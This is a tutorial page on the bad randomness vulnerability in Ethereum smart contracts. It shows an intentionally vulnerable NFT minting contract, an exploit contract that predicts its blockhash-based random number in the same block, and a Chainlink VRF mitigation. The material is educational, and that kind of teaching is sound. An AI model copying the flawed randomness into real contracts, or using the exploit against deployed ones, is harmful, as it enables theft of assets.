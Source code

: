 ```yaml
---
title: Bad Randomness
displayed_sidebar: generalSidebar
keywords:
  - smart contracts
  - security
  - vulnerabilities
  - randomness
  - nft
  - gamefi
  - ethereum
  - solidity
  - pseudo-random
  - blockhash
  - keccak256
  - chainlink-vrf
tags: [Bad Randomness, Security, Smart Contracts]
---
```


# Bad Randomness

## Pseudo-Random Numbers

Many applications on Ethereum, such as NFT random tokenId draws, blind box openings, and GameFi combat outcomes, rely on random numbers. However, since all data on Ethereum is public and deterministic, traditional random generation methods like `random()` are not available.

Instead, projects often use pseudo-random number generators such as `blockhash()` and `keccak256()`. This approach, known as the Bad Randomness Vulnerability, allows attackers to predict outcomes, enabling them to manipulate results like minting specific rare NFTs.

This vulnerability is common in NFT and GameFi projects, including Meebits, Loots, and Wolf Game. It has led to significant financial losses, such as the SmartBillions Lottery exploit where attackers used predictable outcomes to win over 400 ETH. More information is available in the article, [The Blockchain Lottery SmartBillions Was Hacked for $120,000](https://crypto.news/blockchain-lottery-smartbillions-hacked-for-120000/).

## Example of a Bad Randomness Vulnerability

Let's explore a vulnerable NFT contract, `FlawedRandomizer.sol`.

```solidity
contract FlawedRandomizer is ERC721 {
    uint256 public totalMints;

    // Constructor initializes the NFT collection's name and symbol.
    constructor() ERC721("", ""){}

    // Mint function: mints only when the input luckyNumber equals the random number.
    function mintIfLucky(uint256 guessedNumber) public {
        uint256 pseudoRandomNumber = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))) % 100; // Get pseudo-random number
        require(pseudoRandomNumber == guessedNumber, "Try again next time!");

        _mint(msg.sender, totalMints);
        totalMints++;
    }
}
```

The main function `mintIfLucky()` requires users to enter a number between `0-99`. If it matches the chain-generated pseudo-random number `pseudoRandomNumber`, they can mint a lucky NFT. The vulnerability lies in the ability of users to perfectly predict the generated random number and mint the NFT.

Let's write an attack contract `Exploit.sol`.

```solidity
contract Exploit {
    function executeMint(FlawedRandomizer nftAddress) public {
        // Calculate the random number in advance
        uint256 predictedNumber = uint256(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        ) % 100;
        // Use predictedNumber to execute the attack
        nftAddress.mintIfLucky(predictedNumber);
    }
}
```

The function `executeMint()` takes a `FlawedRandomizer` contract address as a parameter. Here, we calculate the `predictedNumber` and then pass it to the `mintIfLucky()` function to execute the attack. Since both `executeMint()` and `mintIfLucky()` are called in the same block, the `blockhash` and `block.timestamp` are the same, making the generated random number predictable.

## Prevention Strategy

Use off-chain random numbers provided by oracle projects to prevent this type of vulnerability, such as Chainlink VRF. These random numbers are generated off-chain and uploaded to the blockchain, ensuring they are unpredictable.
